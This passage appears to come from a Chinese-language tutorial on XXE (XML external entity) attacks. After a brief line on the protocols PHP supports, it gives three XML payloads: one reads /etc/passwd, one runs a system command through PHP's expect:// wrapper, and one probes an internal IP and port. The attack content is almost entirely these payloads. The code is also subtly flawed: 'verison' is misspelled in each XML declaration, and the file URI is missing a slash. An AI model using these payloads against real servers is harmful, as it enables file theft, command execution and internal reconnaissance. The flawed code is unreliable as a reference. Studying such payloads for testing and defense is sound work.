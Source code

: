 上图是默认支持协议，还可以支持其他，如PHP支持的扩展协议有:

![](/assets/images/move/2019-08-31-10-34-54.png)


## XXE攻击方式

- 读取任意文件

```xml
<?xml verison="1.0"?>
<!DOCTYPE ANY[
  <!ENTITY xxe SYSTEM "file://etc/passwd">
]>
<x>&xxe;</x>
```



- 执行系统命令

```xml
<!--装有expect扩展的PHP环境里执行系统命令，其他协议也有可能可以执行系统命令。-->
<?xml verison="1.0"?>
<!DOCTYPE ANY[
  <!ENTITY xxe SYSTEM "expect://id">
]>
<x>&xxe;</x>
```

- 探测内网端口

```xml
<?xml verison="1.0"?>
<!DOCTYPE foo [ 
  <!ENTITY xxe SYSTEM "http://192.168.0.1:80/"> 
]>
<x>&xxe;</x>
```
